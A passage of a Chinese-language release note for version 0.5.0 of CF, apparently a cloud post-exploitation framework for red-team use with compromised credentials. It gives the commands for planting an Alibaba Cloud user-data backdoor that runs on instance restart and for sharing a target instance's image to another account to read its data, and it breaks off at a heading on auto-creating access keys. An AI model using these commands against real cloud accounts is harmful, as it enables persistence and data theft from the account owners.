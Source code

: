 ﻿---
title: 0.5.0 版本更新描述
---

<center><h1>CF 云环境利用框架现已更新至 v0.5.0 版本</h1></center>

CF 是一个云环境利用框架，主要拿来进行云访问凭证的后利用，助力云上攻防。

CF 于 2022 年 7 月 1 日发布，今天正好是该工具发布的一周年，现在 CF 已有近 2k Stars，今天 CF 更新到了 0.5.0 版本，这里介绍下这个版本所更新的内容。

CF 项目地址：[github.com/teamssix/cf](https://github.com/teamssix/cf)

CF 使用手册：[wiki.teamssix.com/cf](https://wiki.teamssix.com/cf)

## 新增功能

### 1. 新增阿里云用户数据后门功能

由于在实例启动时，会执行用户数据中的内容，因此通过往用户数据中写入文件，可以起到后门的作用。

现在使用以下命令，就可以修改实例中的用户数据，这样当实例重启时就会执行该命令了。

```bash
cf alibaba ecs exec --userDataBackdoor "whoami"
```
<img width="900" src="/img/1688136553.png">

### 2. 新增阿里云镜像共享功能

通过镜像共享功能，可以将当前实例的镜像共享给其他的阿里云账号，这样当其他的阿里云账号下使用这个共享镜像创建实例的时候，就能看到目标实例中的数据了。

使用以下命令进行创建共享镜像，-a 参数用来指定要共享给的阿里云账号。

```bash
cf alibaba ecs imageShare -a <account_id>
```

<img width="900" src="/img/1688136975.png">

使用以下命令，可以列出当前已共享的镜像。

```bash
cf alibaba ecs imageShare ls
```

<img width="900" src="/img/1688137015.png">

使用以下命令即可取消共享镜像。

```bash
cf alibaba ecs imageShare cancel
```

<img width="900" src="/img/1688137294.png">

### 3. 新增阿里云接管控制台时自动创建 AK 功能
